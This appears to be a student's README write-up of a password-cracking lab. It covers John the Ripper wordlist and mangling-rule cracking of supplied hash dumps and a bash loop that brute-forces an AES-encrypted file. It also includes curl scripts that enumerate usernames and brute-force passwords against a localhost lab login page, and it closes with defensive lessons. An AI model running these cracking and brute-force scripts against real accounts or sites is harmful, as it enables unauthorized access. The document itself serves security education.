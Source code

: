 
## Part A-  BASIC PASSWORD CRACKING

**Skills to learn**: 

```diff
+ John the ripper cracking modes (single, wordlist and mangling rules) 
``` 

Check the files folder inside this directory. It should contain, 

  - Password hash files: easy_dump, medium_dump, hard_dump
  - wordlists folder: GawkerPasswords.txt, SonyPasswords.txt, YahooVoicePasswords.txt, passwords.txt

We will use John along with [jumbo patch](http://openwall.info/wiki/john/patches). Every file, namely, easy_dump, medium_dump, hard_dump has 5 users you need to crack

To view passwords already cracked by JTR for a password dump file, one can run the following command: 
``` ~/JohnTheRipper-unstable-jumbo/run/john --show easy_dump```

### Cracking easy_dump

The following command tells JTR to try “simple” mode, then the default wordlists containing likely passwords, and then “incremental” mode. In other words, JTR uses default modes. 

```~/JohnTheRipper-unstable-jumbo/run/john easy_dump```

```diff
- ~/JohnTheRipper-unstable-jumbo/run/john is a path to the executable 
```

### Cracking medium_dump

The wordlist mode allows JTR to use thousands of passwords and generate their hashes to compare them to the hashes inside the file
```~/JohnTheRipper-unstable-jumbo/run/john --wordlist=/home/student/wordlists/YahooVoicePasswords.txt medium_dump```

I was able to crack only one user with YahooVoicePassowrds. Therefore, I used another wordlist RockYouPasswords.txt. This wordlist is not present in this repo because of size but I believe one can use /usr/share/wordlists/rockyou.txt.gz in Linux. 

Through this command, I was able to crack rest of the users 

```~/JohnTheRipper-unstable-jumbo/run/john --wordlist=/home/student/wordlists/RockYouPasswords.txt medium_dump```

### Cracking hard_dump

This one occupied most of my time. To crack hard users, we will use wordlists with "mangling rules" provided by JTR. 

```~/JohnTheRipper-unstable-jumbo/run/john --rules --wordlist=/home/student/wordlists/YahooVoicePasswords.txt hard_dump``` 

<br> 

```~/JohnTheRipper-unstable-jumbo/run/john --rules --wordlist=/home/student/wordlists/RockYouPasswords.txt hard_dump```

However, I was only able to find 4 users with this. For the 5th user, I used ```--rules:single```. This is a hybrid of mangling rules with simple mode. It turned out that 5th user password was in a wordlist but it was flipped. 


<br> 

## Part B - OFFLINE ATTACK 

**Skills to learn**: 

```diff 
+ Bash scripting, openssl utility
+ Generating passwords from John the ripper to stdout 
```

Hacker encrypted the file: secret_file.aes256.txt
- It was encrypted using AES 256 using the openssl command line tool.
- The encrypted file is BASE64 encoded.
- The hacker thought that since passwords were insecure, they would first hash their encryption password using md5 to make it "more random" and harder to guess.
- The MD5 hash of the hacker's password was used as the password given to openssl for the AES encryption.
- The contents of the file are Lorem Ipsum in ascii text.

```bash
rm /home/student/JohnTheRipper-unstable-jumbo/run/john.rec

/home/student/JohnTheRipper-unstable-jumbo/run/john --wordlist=wordlists/YahooVoicePasswords.txt -stdout |
  while IFS= read -r password
  do
    #echo "\n ----------------------------------------"
    #echo "\n Password generated is $password"
    hash=`echo -n $password | openssl dgst -md5 | cut -d ' ' -f2`
    #echo "\n MD5 hash of the password is $hash"
    #echo "\n Output while decryption ..."
    output=`openssl enc -d -aes256 -a -k $hash -in secret_file.aes256.txt`
    if [ $? -eq 0 ]; then
        echo $output | grep -P -n "[\x80-\xFF]"
        if [ $? -eq 0 ]; then
            continue
        else
            echo "\n found 1 $password"
            exit 0;
        fi
    fi
  done
echo "NOT FOUND :("
```

This is my exploit. Let's break it down to understand it. 

```rm /home/student/JohnTheRipper-unstable-jumbo/run/john.rec``` -> This is done to prevent the error "Crash recovery file is locked". 

```/home/student/JohnTheRipper-unstable-jumbo/run/john --wordlist=wordlists/YahooVoicePasswords.txt -stdout |``` -> Generate passwords from wordlist using John and output them on stdout. Later, pipe them so our while loop can read them line by line. 

```    hash=`echo -n $password | openssl dgst -md5 | cut -d ' ' -f2` ``` -> Generate md5 hash and just take the hash value from output i.e remove extra text "(stdin)="

```    output=`openssl enc -d -aes256 -a -k $hash -in secret_file.aes256.txt` ``` -> Try to decrypt using openssl. 

```bash    
if [ $? -eq 0 ]; then 
  echo $output | grep -P -n "[\x80-\xFF]"
        if [ $? -eq 0 ]; then
            continue
        else
            echo "\n found 1 $password"
            exit 0;

``` 

-> $? refers to the exit status of the last command executed. If the command was successful, then it is 0 otherwise 1

```  echo $output | grep -P -n "[\x80-\xFF]" ``` -> Exit status of this command is 0 if non ASCII character were found

<br> 

## Part C - ONLINE ATTACK 

**Skills to learn**: 

```diff
+ curl command line tool
+ bash scripting
+ password cracking
```

Our goal is to get past the login page of the website below. We would need to find active usernames and crack password for one of the accounts. 

![Screenshot](files/website/website.png?raw=true)

### Cracking active usernames 

I tried a random username and I get a following alert:

![Screenshot](files/website/website-uname-not-found.png?raw=true)

I run the following script to find active usernames: 

```bash
cat facebook-firstnames.txt | head -n100000 |
  while IFS= read -r uname
  do
    #echo $uname
    output=`curl --data "username=$uname&password=123" localhost:5000/login 2>/dev/null | grep "Error. Username does not exist."`
    if [ $? -eq 0 ]; then
        continue
    else
        echo "$uname" >> "valid_usernames.txt"
        echo $uname
    fi
  done
```

This script works by making a POST request to the server and if the response contains **"Error. Username does not exist."**, we can skip that username and look for other candidates

### Cracking password for an active user

I tried to login with an active user "adam" with a random password. This is what I got: 

![Screenshot](files/website/website-invalid-pass.png?raw=true)

Again, we can modify our existing exploit to search for "Invalid password." string here.

```bash
wordlist="500-worst-passwords.txt"

cat valid_usernames.txt |
  while IFS= read -r uname
  do
    echo "\n Current user $uname"
    cat $wordlist |
    while IFS= read -r passwd
    do
    #echo "\n Trying for $uname $passwd"
    output=`curl --data "username=$uname&password=$passwd" localhost:5000/login 2>/dev/null | grep "Invalid password."`
    if [ $? -eq 0 ]; then
        continue
    else
        echo "$uname + $passwd" >> "valid_passwords2.txt"
        echo "$uname + $passwd"
        break
    fi
    done
  done
```

```diff
- Here, I am not using wordlists from partA. Instead, I am using 500-worst-passwords.txt I found on a random Github repo. This is because, users on social media sites are most likely to use bad passwords than linux users.
```

I found the password "123456789" for a user named "michael". We're in ;) 

![Screenshot](files/website/website-login-success.png?raw=true)

### SECURITY LESSON:

From this website and exploit, we can safely deduce two lessons 

- One should display same message for wrong usernames and passwords. Otherwise, it is easy for one to enumerate users. One username can be enough to find a security weaklink.
- Websites should have login rate limiting to prevent brute forcing  


